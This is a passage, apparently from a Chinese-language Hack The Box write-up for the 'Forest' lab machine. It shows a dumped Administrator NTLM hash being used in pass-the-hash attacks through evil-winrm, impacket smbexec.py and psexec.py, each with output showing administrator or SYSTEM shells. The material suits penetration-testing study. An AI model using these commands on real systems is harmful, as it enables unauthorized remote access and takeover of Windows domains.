 ```
看到爆出了```Administrator```的哈希
```
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```
 
现在我们可以利用pass-the-hash

使用evil-winr登录
```
┌──(root💀kali)-[~/htb/Forest]
└─# evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator

```

或者smbexec.py
```
┌──(root💀kali)-[~/htb/Forest]
└─# python3 /usr/share/doc/python3-impacket/examples/smbexec.py Administrator@10.10.10.161 -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>

```

或者psexec.py
```
┌──(root💀kali)-[~/htb/Forest]
└─# python3 /usr/share/doc/python3-impacket/examples/psexec.py htb/Administrator@10.10.10.161  -hashes "32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6"

Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file qJuKKMlK.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service Tifk on 10.10.10.161.....
[*] Starting service Tifk.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
